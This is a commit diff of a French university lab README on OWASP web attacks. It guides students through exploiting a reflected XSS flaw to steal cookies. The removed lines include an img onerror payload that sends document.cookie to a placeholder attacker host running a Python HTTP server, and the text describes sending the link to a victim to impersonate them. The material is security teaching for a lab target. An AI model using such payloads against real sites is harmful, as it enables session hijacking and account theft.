

Before and after one commit to vladostp/courses, a Markdown page: owasp/tp-owasp/Readme.md, 2 parts joined by grey strips. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Update OWASP TP

```diff
--- a/owasp/tp-owasp/Readme.md
+++ b/owasp/tp-owasp/Readme.md
@@ -328,41 +328,38 @@ Lorsque vous avez compris comment fonctionne la récupération du panier, essaye
 ### Cross-Site Scripting (XSS) - Voler des cookies
 Dans cette section, vous allez trouver et exploiter la vulnérabilité de type Reflected XSS.
 
-Vous allez commencer par rechercher un paramètre ou une entrée qui n’effectue aucun filtrage ni nettoyage et qui est inclus directement dans la réponse immédiate de l’application Web.
-Ensuite, vous allez créer un lien spécial qui volera les cookies d'un utilisateur lorsqu'il cliquera dessus.
+Vous allez commencer par rechercher un paramètre présent dans l'URL qui n’effectue aucun filtrage ni nettoyage et qui est inclus directement dans la réponse immédiate de l’application Web.
+Ensuite, vous allez créer une URL spéciale qui volera les cookies d’un utilisateur lorsqu’il la visitera.
 
-Tout d'abord, vous devez trouver une page avec un paramètre ou une entrée vulnérable. Vous devrez trouver une page où une entrée utilisateur est incluse dans la réponse immédiate de l'application Web (dans le contenu de la page HTML).
+Pour trouver la vulnérabilité :
+- Trouvez une page avec un paramètre potentiellement vulnérable
+    - Vous devez trouver une page où la valeur d'un paramètre est inclus **dans la réponse immédiate de l'application Web** (dans le contenu de la page HTML)
+- Vérifiez si la valeur de ce paramètre est incluse dans le contenu de la page sans validation ni échappement
+    - Vous pouvez essayer de mettre du code HTML comme valeur (par exemple `<h1>Lyon1</h1>`) et si le contenu HTML est inclus et interprété sur la page, vous avez trouvé une vulnérabilité
+        - Il faudra peut-être encoder le code HTML dans le format URL-encoded afin qu'il puisse être utilisé dans l'URL. Pour ce faire, utilisez un encodeur en ligne comme [https://www.urlencoder.org/](https://www.urlencoder.org/)
+- **Quelle page et quel paramètre sont vulnérables ?**
 
-Ensuite, il faudra vérifier si cette entrée est incluse dans le contenu de la page sans validation ni échappement.
+Félicitations, vous avez trouvé un moyen d’injecter du code HTML dans la page via un paramètre vulnérable.
 
-Vous pouvez essayer de mettre du code HTML comme entrée utilisateur (par exemple `<h1>Lyon1</h1>`) et si le contenu HTML est inclus et interprété sur la page, vous avez trouvé une vulnérabilité.
+Il faut maintenant trouver un moyen d'injecter du code JavaScript dans la page pour pouvoir voler les cookies de l'utilisateur.
 
-- Quelle page et quel paramètre sont vulnérables ?
+Pour faire cela, vous pouvez utiliser les tags HTML `img` ou `iframe`.
 
-Félicitations, vous avez trouvé un moyen d’injecter du code HTML dans la page.
-Il faut maintenant trouver un moyen d'injecter du code JavaScript dans la page afin de pouvoir récupérer et envoyer les cookies de l'utilisateur.
-Pour faire cela, vous pouvez utiliser le tag HTML `iframe` ou `img`.
+- `img` qui essaye de charger une image inexistante avec du code JS dans le paramètre `onerror="CODE_JS"`
+- `iframe` avec le code JS dans le paramètre `src="javascript:CODE_JS"`
 
-- `iframe` avec le code JS dans le paramètre `src=”javascript:CODE_JS”`
-- `img` qui essaye de charger une image inexistante avec du code JS dans le paramètre `onerror=”CODE_JS”`
-
-- Quelle requête utiliseriez-vous pour afficher `Lyon1` en tant qu'alerte JavaScript ?
+- **Que mettez-vous comme valeur de paramètre pour afficher `Lyon1` comme alerte JavaScript ?**
 
 Ensuite, il faut trouver un moyen de récupérer les cookies de l'utilisateur avec du code JavaScript.
 Les cookies de l’utilisateur se trouvent dans la variable `document.cookie`.
-
-Affichez les cookies dans une alerte JS en utilisant la vulnérabilité trouvée précédemment.
-
-- Quelle requête utiliseriez vous pour faire cela ?
+- Affichez les cookies dans une alerte JS en utilisant la vulnérabilité trouvée précédemment.
+- **Que mettez-vous comme valeur de paramètre pour faire cela ?**
 
 Jusqu'à présent, vous avez affiché des cookies en exploitant une vulnérabilité XSS.
 
-Vous allez maintenant voir comment il est possible de voler les cookies d'un utilisateur en exploitant cette vulnérabilité.
+Vous allez maintenant voler les cookies d'un utilisateur en exploitant cette vulnérabilité.
 
-- Démarrez un serveur HTTP python sur le port `443` sur la machine OpenStack
+Pour ce faire:
+- Démarrez un serveur HTTP Python sur le port `443` sur la machine OpenStack
     - `sudo python3 -m http.server 443`
-- Créez une requête sur la page vulnérable en utilisant le tag HTML `img` avec `onerror` suivant
-    - `this.src="http://ADR-DE-LA-MACHINE-OPENSTACK:443/?c="+document.cookie`
-- Testez cette requête
-    - Si tout a été fait correctement dans les logs du serveur HTTP vous allez voir les cookies de l’utilisateur
 
@@ -370,13 +368,18 @@ Vous allez maintenant voir comment il est possible de voler les cookies d'un uti
 
-- Avez-vous réussi à exploiter cette vulnérabilité ?
-- Quels champs contiennent les cookies volés ?
+- Testez l'URL créée précédemment depuis votre navigateur
+    - Si tout a été fait correctement dans les logs du serveur HTTP, vous allez voir les cookies de votre utilisateur ![Logs du serveur web avec les cookies de l'utilisateur](./webserver_log.png)
 
-De même, vous pouvez envoyer ce lien à la victime.
-Lorsque la victime ouvrira ce lien, vous allez recevoir ses cookies.
-Ensuite, il sera possible d'usurper son identité en utilisant ses cookies.
+- **Avez-vous réussi à exploiter cette vulnérabilité ?**
+- **Quelle URL avez-vous utilisé ?**
+- **Quels champs contiennent les cookies volés ?**
+
+De même, vous pouvez envoyer un lien avec cette URL à la victime.
+Si la victime ouvre ce lien, les logs du serveur HTTP vont contenir ses cookies.
+Ensuite, il sera possible d'usurper son identité grâce à ses cookies.
 
 L'attaque vue ci-dessus est relativement compliquée à réaliser car la victime doit utiliser le lien fourni par l'attaquant.
 Par conséquent, les attaques Reflected XSS et DOM XSS dans la plupart des cas ne sont pas considérées comme critiques.
+
 
 ### Cross-Site Scripting (XSS)  - Voler des cookies de l’administrateur
 Dans cette section, vous allez exploiter la vulnérabilité de type Stored XSS.
```
Also changed, not shown: other parts of owasp/tp-owasp/Readme.md (+2 -1 lines).
